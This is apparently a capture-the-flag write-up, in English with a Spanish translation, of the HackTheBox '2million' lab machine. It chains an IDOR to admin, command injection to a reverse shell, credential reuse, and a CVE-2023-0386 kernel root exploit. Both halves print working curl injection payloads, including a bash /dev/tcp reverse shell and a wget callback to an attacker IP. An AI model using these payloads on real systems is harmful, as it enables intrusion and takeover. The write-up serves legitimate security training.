Exploitation Summary
Exploitation process: The target machine was running a custom web application mimicking the old HackTheBox invite system. Through API enumeration, I discovered hidden endpoints including /api/v1/invite/how/to/generate, which revealed a method to generate valid invitation codes. After registering and authenticating, further API discovery exposed administrative endpoints at /api/v1/admin.
By exploiting an Insecure Direct Object Reference (IDOR) vulnerability in the PUT /api/v1/admin/settings/update endpoint, I escalated my user privileges to administrator. This granted access to the /api/v1/admin/vpn/generate endpoint, which was vulnerable to command injection through the username parameter, allowing me to obtain a reverse shell as www-data.
Credentials found in a .env file (admin:SuperDuperPass123) provided SSH access as the admin user. The final privilege escalation leveraged CVE-2023-0386, a kernel vulnerability in the OverlayFS filesystem affecting Linux kernel version 5.15.70. This vulnerability allows unprivileged users to gain root access by exploiting improper permission handling when mounting overlayfs filesystems, ultimately providing a root shell.
Technologies/Exploits: API enumeration and fuzzing, IDOR vulnerability exploitation, OS command injection, credential exposure via configuration files, Linux kernel privilege escalation via CVE-2023-0386 (OverlayFS vulnerability).
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target machine:

The scan reveals SSH running on port 22 and an HTTP server on port 80. I'll focus on the web application first to identify potential attack vectors.
Web Enumeration - Initial Discovery
Running gobuster to discover web directories and endpoints:

Gobuster discovers several interesting paths, including an /api endpoint. I continue enumeration by scanning /api and discover /api/v1, though further scanning doesn't reveal additional paths at this level.
The main page features a login panel, but I don't have credentials yet, and SQL injection attempts don't yield results. While manually browsing the application, I find a route that gobuster might have missed: http://2million.htb/invite

API Exploitation - Generating Invitation Codes
The invite page submits a POST request to http://2million.htb/api/v1/invite/verify. I open Burp Suite to intercept and manipulate the requests, testing various injection techniques without immediate success.
Deciding to fuzz the /api/v1/invite endpoint for other HTTP methods, I discover something interesting:

Testing this endpoint with Burp Suite:

The response appears to be base64-encoded. After decoding, I obtain what looks like an invitation code:
S4YRN-JK2X7-O3SY7-UYB99
Using this code, I successfully register an account and gain access to the application.
API Discovery - Administrative Endpoints
After logging in, I explore the application and run another gobuster scan:

The most interesting finding is the /access page, where users can download and regenerate OpenVPN configuration files. The interesting part is the API routes being used:
/api/v1/user/vpn/generate/api/v1/user/vpn/regenerate
I run gobuster on /api/v1/user and discover an /auth endpoint:

This suggests there must be a way to escalate privileges to administrator. Testing a POST request to this endpoint fails as the method isn't supported.
Finding the Admin API
Using ffuf to fuzz for alternative API paths, I discover that admin can be used instead of user:

Accessing /api/v1/admin/auth reveals:

Attempting POST requests to /api/v1/admin/auth fails. However, /api/v1/admin/vpn/generate returns a 401 Unauthorized response when accessed via POST, indicating the endpoint exists but requires admin privileges.
Complete API Mapping
Checking /api/v1 directly reveals the complete list of available routes:

The PUT /api/v1/admin/settings/update endpoint stands out as particularly interesting for privilege escalation.
Privilege Escalation to Admin - IDOR Vulnerability
Testing the settings update endpoint, I craft a PUT request to modify my user's admin status:

By sending a PUT request with JSON data {"is_admin": 1}, I successfully escalate my privileges to administrator. This is a classic Insecure Direct Object Reference (IDOR) vulnerability where the application fails to properly validate whether the authenticated user should be allowed to modify their own admin status.
Command Injection - Initial Access
Now with admin access, I focus on the /api/v1/admin/vpn/generate endpoint. Since the VPN files don't contain useful information and the username parameter seems arbitrary, I test for command injection vulnerabilities.
Testing with || returns no output, which raises suspicion that command injection might be possible. I verify this by attempting to trigger an HTTP request back to my machine:
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
--cookie "PHPSESSID=6emcqoc5thc6m131g2t1ncordu" \
-H 'Content-Type: application/json' \
-d '{"username": "xd && wget 10.10.14.239:8000"}'
Starting a Python HTTP server on my machine:
python3 -m http.server
I receive the connection, confirming command injection:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.221 - - "GET / HTTP/1.1" 200 -
Obtaining a Reverse Shell
Now that command injection is confirmed, I craft a reverse shell payload:
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
--cookie "PHPSESSID=6emcqoc5thc6m131g2t1ncordu" \
-H 'Content-Type: application/json' \
-d '{"username": "xd && bash -c \"bash -i >& /dev/tcp/10.10.14.239/443 0>&1\""}'
Setting up a netcat listener:
sudo nc -lvnp 443
I successfully receive a reverse shell as www-data:
listening on [any] 443 ...
connect to [10.10.14.239] from (UNKNOWN) [10.10.11.221] 48172
bash: cannot set terminal process group (1195): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
Lateral Movement - Credential Discovery
In the www-data home directory, I discover a .env file containing database credentials:
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
While exploring the database reveals three interesting users, attempting to crack their hashes doesn't immediately succeed. However, testing the database password for system authentication proves successful.
Port Analysis
Checking for locally-bound services with ss -tuln:
www-data@2million:~/html$ ss -tuln
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
udp UNCONN 0 0 127.0.0.53%lo:53 0.0.0.0:*
udp UNCONN 0 0 0.0.0.0:68 0.0.0.0:*
tcp LISTEN 0 80 127.0.0.1:3306 0.0.0.0:*
tcp LISTEN 0 1024 127.0.0.1:11211 0.0.0.0:*
tcp LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
tcp LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
tcp LISTEN 0 511 [::]:80 [::]:*
tcp LISTEN 0 128 [::]:22 [::]:*
Port 11211 stands out as potentially interesting - this is typically memcached. Connecting via telnet reveals version 1.6.14, which has a known buffer overflow vulnerability (CVE-2023-46852), though it doesn't appear immediately useful for this scenario.
SSH Access as Admin
Testing the database password with the admin user proves successful:
ssh admin@2million.htb
# Password: SuperDuperPass123
I now have SSH access as the admin user and can retrieve the user flag from /home/admin/user.txt.
Privilege Escalation to Root - CVE-2023-0386
Checking the kernel version:
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
This kernel version is vulnerable to CVE-2023-0386, an OverlayFS privilege escalation vulnerability. According to the security analysis, this exploit leverages the OverlayFS mount system to copy SUID binaries to locations where they shouldn't normally be accessible.
Understanding CVE-2023-0386
The vulnerability exists in the Linux kernel's OverlayFS implementation. OverlayFS is a union filesystem that allows multiple directories to be combined into a single view. The vulnerability stems from improper permission handling when mounting overlayfs filesystems, allowing an unprivileged user to gain write access to files that should be restricted.
The exploit works by:
- Creating a malicious OverlayFS mount with crafted permissions
- Exploiting the kernel's improper validation to gain elevated access to SUID binaries
- Leveraging this access to execute code as root
Exploiting the Vulnerability
I download a proof-of-concept exploit from GitHub, transfer it to the target machine, and compile it:
make all
The exploit requires two terminal sessions. In the first SSH session, I execute the setup script:

In the second SSH session, I run the privilege escalation component:

The exploit successfully escalates privileges, granting me a root shell:

With root access, I can now retrieve the root flag from /root/root.txt and have complete control over the system.
Resumen de Explotación
Proceso de explotación: La máquina objetivo ejecutaba una aplicación web personalizada que imitaba el antiguo sistema de invitaciones de HackTheBox. A través de la enumeración de APIs, descubrí endpoints ocultos incluyendo /api/v1/invite/how/to/generate, que revelaba un método para generar códigos de invitación válidos. Tras registrarme y autenticarme, una mayor exploración de la API expuso endpoints administrativos en /api/v1/admin.
Explotando una vulnerabilidad de Referencia Directa a Objetos Insegura (IDOR) en el endpoint PUT /api/v1/admin/settings/update, escalé los privilegios de mi usuario a administrador. Esto otorgó acceso al endpoint /api/v1/admin/vpn/generate, que era vulnerable a inyección de comandos a través del parámetro username, permitiéndome obtener una reverse shell como www-data.
Las credenciales encontradas en un archivo .env (admin:SuperDuperPass123) proporcionaron acceso SSH como usuario admin. La escalada final de privilegios aprovechó CVE-2023-0386, una vulnerabilidad del kernel en el sistema de archivos OverlayFS que afecta a la versión 5.15.70 del kernel de Linux. Esta vulnerabilidad permite a usuarios sin privilegios obtener acceso root explotando el manejo inadecuado de permisos al montar sistemas de archivos overlayfs, proporcionando finalmente una shell de root.
Tecnologías/Exploits: Enumeración y fuzzing de APIs, explotación de vulnerabilidad IDOR, inyección de comandos del sistema operativo, exposición de credenciales mediante archivos de configuración, escalada de privilegios del kernel de Linux mediante CVE-2023-0386 (vulnerabilidad de OverlayFS).
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios en la máquina objetivo:
El escaneo revela SSH ejecutándose en el puerto 22 y un servidor HTTP en el puerto 80. Me centraré primero en la aplicación web para identificar vectores de ataque potenciales.
Enumeración Web - Descubrimiento Inicial
Ejecuto gobuster para descubrir directorios y endpoints web:
Gobuster descubre varias rutas interesantes, incluyendo un endpoint /api. Continúo la enumeración escaneando /api y descubro /api/v1, aunque el escaneo posterior no revela rutas adicionales en este nivel.
La página principal muestra un panel de login, pero no tengo credenciales aún, y los intentos de inyección SQL no arrojan resultados. Mientras navego manualmente por la aplicación, encuentro una ruta que gobuster podría haberse perdido: http://2million.htb/invite
Explotación de API - Generando Códigos de Invitación
La página de invitación envía una petición POST a http://2million.htb/api/v1/invite/verify. Abro Burp Suite para interceptar y manipular las peticiones, probando varias técnicas de inyección sin éxito inmediato.
Decidiendo hacer fuzzing en el endpoint /api/v1/invite para otros métodos HTTP, descubro algo interesante:
Probando este endpoint con Burp Suite:
La respuesta parece estar codificada en base64. Tras decodificarla, obtengo lo que parece un código de invitación:
S4YRN-JK2X7-O3SY7-UYB99
Usando este código, registro exitosamente una cuenta y obtengo acceso a la aplicación.
Descubrimiento de API - Endpoints Administrativos
Tras iniciar sesión, exploro la aplicación y ejecuto otro escaneo de gobuster:
El hallazgo más interesante es la página /access, donde los usuarios pueden descargar y regenerar archivos de configuración OpenVPN. La parte interesante son las rutas de la API que se están utilizando:
/api/v1/user/vpn/generate/api/v1/user/vpn/regenerate
Ejecuto gobuster en /api/v1/user y descubro un endpoint /auth:
Esto sugiere que debe haber una forma de escalar privilegios a administrador. Probar una petición POST a este endpoint falla ya que el método no está soportado.
Encontrando la API de Admin
Usando ffuf para hacer fuzzing de rutas alternativas de la API, descubro que admin puede usarse en lugar de user:
Accediendo a /api/v1/admin/auth revela:
Intentar peticiones POST a /api/v1/admin/auth falla. Sin embargo, /api/v1/admin/vpn/generate devuelve una respuesta 401 No Autorizado al acceder mediante POST, indicando que el endpoint existe pero requiere privilegios de administrador.
Mapeo Completo de la API
Comprobando /api/v1 directamente se revela la lista completa de rutas disponibles:
El endpoint PUT /api/v1/admin/settings/update destaca como particularmente interesante para la escalada de privilegios.
Escalada de Privilegios a Admin - Vulnerabilidad IDOR
Probando el endpoint de actualización de configuración, elaboro una petición PUT para modificar el estado de administrador de mi usuario:
Enviando una petición PUT con datos JSON {"is_admin": 1}, escalo exitosamente mis privilegios a administrador. Esta es una vulnerabilidad clásica de Referencia Directa a Objetos Insegura (IDOR) donde la aplicación falla en validar apropiadamente si el usuario autenticado debería poder modificar su propio estado de administrador.
Inyección de Comandos - Acceso Inicial
Ahora con acceso de administrador, me centro en el endpoint /api/v1/admin/vpn/generate. Como los archivos VPN no contienen información útil y el parámetro username parece arbitrario, pruebo vulnerabilidades de inyección de comandos.
Probar con || no devuelve salida, lo que levanta sospechas de que la inyección de comandos podría ser posible. Verifico esto intentando desencadenar una petición HTTP de vuelta a mi máquina:
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
--cookie "PHPSESSID=6emcqoc5thc6m131g2t1ncordu" \
-H 'Content-Type: application/json' \
-d '{"username": "xd && wget 10.10.14.239:8000"}'
Iniciando un servidor HTTP de Python en mi máquina:
python3 -m http.server
Recibo la conexión, confirmando la inyección de comandos:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.221 - - "GET / HTTP/1.1" 200 -
Obteniendo una Reverse Shell
Ahora que la inyección de comandos está confirmada, elaboro un payload de reverse shell:
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
--cookie "PHPSESSID=6emcqoc5thc6m131g2t1ncordu" \
-H 'Content-Type: application/json' \
-d '{"username": "xd && bash -c \"bash -i >& /dev/tcp/10.10.14.239/443 0>&1\""}'
Configurando un listener de netcat:
sudo nc -lvnp 443
Recibo exitosamente una reverse shell como www-data:
listening on [any] 443 ...
connect to [10.10.14.239] from (UNKNOWN) [10.10.11.221] 48172
bash: cannot set terminal process group (1195): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
Movimiento Lateral - Descubrimiento de Credenciales
En el directorio home de www-data, descubro un archivo .env conteniendo credenciales de base de datos:
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
Aunque explorar la base de datos revela tres usuarios interesantes, intentar crackear sus hashes no tiene éxito inmediato. Sin embargo, probar la contraseña de la base de datos para autenticación del sistema resulta exitoso.
Análisis de Puertos
Comprobando servicios enlazados localmente con ss -tuln:
www-data@2million:~/html$ ss -tuln
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
udp UNCONN 0 0 127.0.0.53%lo:53 0.0.0.0:*
udp UNCONN 0 0 0.0.0.0:68 0.0.0.0:*
tcp LISTEN 0 80 127.0.0.1:3306 0.0.0.0:*
tcp LISTEN 0 1024 127.0.0.1:11211 0.0.0.0:*
tcp LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
tcp LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
tcp LISTEN 0 511 [::]:80 [::]:*
tcp LISTEN 0 128 [::]:22 [::]:*
El puerto 11211 destaca como potencialmente interesante - esto es típicamente memcached. Conectándome mediante telnet revela la versión 1.6.14, que tiene una vulnerabilidad conocida de desbordamiento de búfer (CVE-2023-46852), aunque no parece inmediatamente útil para este escenario.
Acceso SSH como Admin
Probar la contraseña de la base de datos con el usuario admin resulta exitoso:
ssh admin@2million.htb
# Contraseña: SuperDuperPass123
Ahora tengo acceso SSH como usuario admin y puedo recuperar la flag de usuario desde /home/admin/user.txt.
Escalada de Privilegios a Root - CVE-2023-0386
Comprobando la versión del kernel:
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
Esta versión del kernel es vulnerable a CVE-2023-0386, una vulnerabilidad de escalada de privilegios de OverlayFS. Según el análisis de seguridad, este exploit aprovecha el sistema de montaje de OverlayFS para copiar binarios SUID a ubicaciones donde normalmente no deberían ser accesibles.
Entendiendo CVE-2023-0386
La vulnerabilidad existe en la implementación de OverlayFS del kernel de Linux. OverlayFS es un sistema de archivos de unión que permite combinar múltiples directorios en una única vista. La vulnerabilidad surge del manejo inadecuado de permisos al montar sistemas de archivos overlayfs, permitiendo a un usuario sin privilegios obtener acceso de escritura a archivos que deberían estar restringidos.
El exploit funciona mediante:
- Creando un montaje malicioso de OverlayFS con permisos manipulados
- Explotando la validación inadecuada del kernel para obtener acceso elevado a binarios SUID
- Aprovechando este acceso para ejecutar código como root
Explotando la Vulnerabilidad
Descargo una prueba de concepto del exploit desde GitHub, la transfiero a la máquina objetivo y la compilo:
make all
El exploit requiere dos sesiones de terminal. En la primera sesión SSH, ejecuto el script de configuración:
En la segunda sesión SSH, ejecuto el componente de escalada de privilegios:
El exploit escala exitosamente los privilegios, otorgándome una shell de root:
Con acceso root, ahora puedo recuperar la flag de root desde /root/root.txt y tengo control completo sobre el sistema.